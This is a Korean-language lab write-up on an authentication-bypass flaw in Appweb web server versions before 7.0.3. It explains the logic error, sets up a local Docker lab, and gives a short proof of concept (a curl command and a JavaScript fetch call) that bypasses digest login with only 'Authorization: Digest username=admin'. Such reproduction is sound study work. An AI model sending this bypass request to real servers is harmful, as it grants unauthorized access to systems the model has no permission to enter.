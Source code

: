 #### Contributors
김윤성(@KIMSEOUNSUNG)



### 1. 개요
- Appweb : Embedthis Software LLC에 의해 개발되고 유지되는 오픈소스 GPL기반의 임베디드 웹 서버
- Appweb은 basic, digest 등과 같은 다양한 인증 방식을 지원
- 7.0.3 버전 이전의 Appweb에서는 http/httpLib.c의 authCondition 함수와 관련된 논리적 결함이 발견되어 위조된 HTTP 요청을 사용하여 폼 및 다이제스트 로그인 유형에 대한 인증을 우회할 수 있음.


### 2. 취약점의 원인

- 인증 메커니즘이 잘못된 논리로 구현되어 취약점이 발생함.

- digest인증에서는 nonce, uri, response와 같은 여러 매개변수가 필요하지만 Appweb의 취약한 버전에서는 이러한 매개변수 없이 인증 요청을 올바르게 처리함
- 다시 말 해, 공격자는 필요한 매개변수 없이 인증을 우회할 수 있게 됨.


### 3. 환경구축(가상머신 설정)

- VMware에서 실행한 Ubuntu 가상 머신에서 Docker를 실행시키기 위해 다음 명령을 실행함.

    `sudo systemctl start docker`

- 위조된 HTTP 요청을 사용하여 digest 로그인 유형에 대한 인증을 우회해야 하므로, HTTP 클라이언트 도구가 필요함.

- curl 도구를 사용하기 위해 명령어 사용

  `sudo apt install curl`

- curl http://127.0.0.1:8001 - 
기본 요청으로 인증이 필요한지 확인

  `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8001`

해당 요청으로 통해 인증 우회 시도가 가능함.
- Docker는 컨테이너 기반의 애플리케이션 플랫폼으로, 이를 통해 Appweb 7.0.1 서버 구동
- digest 인증을 사용하여 Appweb 7.0.1 서버를 시작하기 위해 다음 명령을 실행한다.

   `docker-compose up -d`

- http://127.0.0.1:8001에 접속하면, digest인증이 요구되는 로그인 창이 열림
- 해당 페이지에서 실습을 시작할 수 있음


### 4. 실습

- 잘못된 로직때문에 발생한 취약점(digest인증)이 발생되었기 때문에, Authorization 헤더를 사용하여 digest 및 form 인증을 우회할 수 있음

- fetch함수를 사용한다.

   `fetch('http://localhost:8001',~~)`

- 이 함수를 사용하는 js코드는 HTTP요청을 생성하고 실행하는 데 사용된다. 

- 원래 digest인증에서는 username, realm, nonce, uri, qop, nc, cnonce, response, opaque 등의 다양한 매개변수들이 필요하다.

다음은 digest의 예시 코드이다.

`GET /resource HTTP/1.1
Host: example.com
Authorization: 
Digest username="user",
               realm="testrealm@host.com",
               nonce="dcd98b7102dd2f0e8b11d0f600bfb0c093",
               uri="/resource",
               qop=auth,
               nc=00000001,
               cnonce="0a4f113b",
               response="6629fae49393a05397450978507c4ef1",
               opaque="5ccc069c403ebaf9f0171e9517f40e41"`


- 그러나 취약점으로 인해 'Authorization':Digest username=admin' 만으로 digest 인증을 뚫을 수 있음.

![Alt text](image.png)

### 5. PoC

`fetch('http://localhost:8001', {
    method: 'GET',
    headers: {
        'Authorization': 'Digest username=admin'
    }
})`